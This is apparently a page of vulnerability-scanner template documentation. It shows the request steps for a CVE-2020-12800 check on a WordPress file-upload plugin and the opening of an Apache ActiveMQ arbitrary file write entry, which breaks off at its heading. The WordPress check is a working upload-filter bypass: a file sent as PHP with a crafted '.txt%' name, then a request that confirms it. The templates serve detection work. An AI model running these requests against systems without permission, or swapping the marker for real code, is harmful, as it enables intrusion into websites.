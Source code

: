 ```
-----------------------------350278735926454076983690555601
Content-Disposition: form-data; name="action"

dnd_codedropz_upload
-----------------------------350278735926454076983690555601
Content-Disposition: form-data; name="type"

click
-----------------------------350278735926454076983690555601
Content-Disposition: form-data; name="upload-file"; filename="{{randstr}}.txt%"
Content-Type: application/x-httpd-php

CVE-2020-12800-{{randstr}}
-----------------------------350278735926454076983690555601--

```

### Step - 2

```
GET /wp-content/uploads/wp_dndcf7_uploads/wpcf7-files/{{randstr}}.txt HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body_2
- words
  1. CVE-2020-12800-{{randstr}}

**Type - status**

- status
  1. 200

---

# Apache ActiveMQ Fileserver - Arbitrary File Write

## Description

- Apache ActiveMQ 5.x before 5.14.0 allows remote attackers to upload and execute arbitrary files via an HTTP PUT followed by an HTTP MOVE request via the Fileserver web application.
- severity - critical
- tags - fileupload,kev,edb,cve,cve2016,apache,activemq,intrusive

## Requests

